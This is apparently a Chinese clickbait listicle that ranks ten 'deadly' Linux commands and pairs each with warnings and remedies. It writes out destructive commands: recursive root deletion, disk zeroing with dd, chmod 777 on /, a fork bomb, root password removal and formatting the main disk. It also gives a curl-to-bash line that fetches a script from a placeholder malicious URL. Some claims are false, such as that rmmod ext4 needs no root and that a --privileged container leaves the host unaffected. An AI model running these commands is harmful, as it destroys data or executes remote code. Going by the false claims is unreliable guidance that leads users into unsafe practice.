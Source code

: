 
---
🔥 **删库跑路必备？Linux十大死亡命令，第1名运维见了都手抖！**

⚠️ _"这行代码千万别试！" ——来自某侥幸恢复数据的老运维临终遗言_

---

### **开篇：新手的第一个死亡flag**
_"这条命令删库比rm -rf还快？试试看！" ——你即将花72小时哭着恢复数据_
当好奇心遇上root权限，这些命令可能会让你的服务器当场暴毙…

---

### **TOP10. 空格毁灭者**
```bash
rm -rf / home/backups  # 在/和home之间误加了空格！
```
**💀杀伤力**：瞬间清空根目录
**🔴高危点**：路径前的空格如同隐形的定时炸弹
**🛡️补救**：立刻断电 → 用Live CD恢复 → 从此养成`rm -rf "./"target_dir`习惯

---

### **TOP9. 磁盘清零弹**
```bash
dd if=/dev/zero of=/dev/sda  # 对硬盘进行物理级格式化
```
**☢️危险系数**：`/dev/zero`会写入无尽空数据
**📉经典翻车案例**：
某程序员误以为在烧录U盘，实际上是擦除主硬盘——全程无确认提示！

---

### **TOP8. 权限核弹**
```bash
chmod -R 777 /  # 全盘开放读写执行权限
```
**⚠️后果**：黑客可任意篡改系统文件
**🔐正确姿势**：
```bash
find /path -type d -exec chmod 755 {} \;  # 目录755
find /path -type f -exec chmod 644 {} \;  # 文件644
```

---

### **TOP7. 登录自杀指令**
```bash
echo "" > ~/.bash_history  # 清空操作记录
```
**🕵️隐藏风险**：出事时无法追溯操作痕迹
**🚨进阶作死**：
```bash
history -c && shutdown -h now  # 删记录后立即关机
```

---

### **TOP6. 资源绞肉机**
```bash
:(){ :|:& };:  # Fork炸弹（瞬间榨干CPU）
```
**⚡爆发速度**：进程数指数级增长 → 30秒内系统卡死
**💡存活技巧**：
```bash
ulimit -u 100  # 限制单个用户进程数
```

---

### **TOP5. 密码粉碎机**
```bash
passwd -d root  # 删除root密码
```
**🏴‍☠️黑客最爱**：配合SSH免密登录食用，服务器秒变肉鸡
**🛡️防御方案**：
```bash
# /etc/ssh/sshd_config 添加：
PermitRootLogin no
```

---

### **TOP4. 文件转移陷阱**
```bash
mv /home/* /dev/null  # 把用户数据扔进黑洞
```
**🌌数据归宿**：所有文件永久消失（/dev/null不是目录！）
**🚑急救包**：
```bash
debugfs -w /dev/sda1  # 尝试用文件系统调试工具恢复
```

---

### **TOP3. 内核刺客**
```bash
rmmod ext4  # 卸载正在使用的文件系统驱动
```
**💥后果**：系统瞬间内核崩溃 → 强制重启都无效
**📌冷知识**：这条命令甚至不需要root权限（默认情况下）

---

### **TOP2. 硬盘墓碑刻字**
```bash
mkfs.ext4 /dev/sda  # 格式化主硬盘
```
**🪦遗言生成器**："我以为那是U盘…" ——年度运维悲喜剧高频台词
**🧯救命指南**：
```bash
testdisk /dev/sda  # 使用数据恢复神器
```

---

### **TOP1. 终极死亡交响曲**
```bash
curl -sL http://恶意网址/boom.sh | bash
```
**☠️危险本质**：
1. 直接执行未知脚本
2. 可能触发`rm -rf /*` + 防火墙关闭 + 挖矿程序安装
**🚫绝对禁忌**：永远别用管道直接运行网络脚本！

---

### **🌈幸存者自救指南**
1. **快照护盾**：
   ```bash
   # 每天凌晨自动创建LVM快照
   lvcreate -s -n backup_snap -L 10G /dev/vg00/lv_root
   ```
2. **权限枷锁**：
   ```bash
   alias rm='rm -i'  # 删除前确认
   set -o noclobber  # 禁止重定向覆盖文件
   ```
3. **终极奥义**：
   ```bash
   docker run --rm -it --privileged alpine  # 在容器里作死（不影响宿主机）
   ```

---

### **🎯下期预警**
**《黑客最怕你用的7条防御命令》**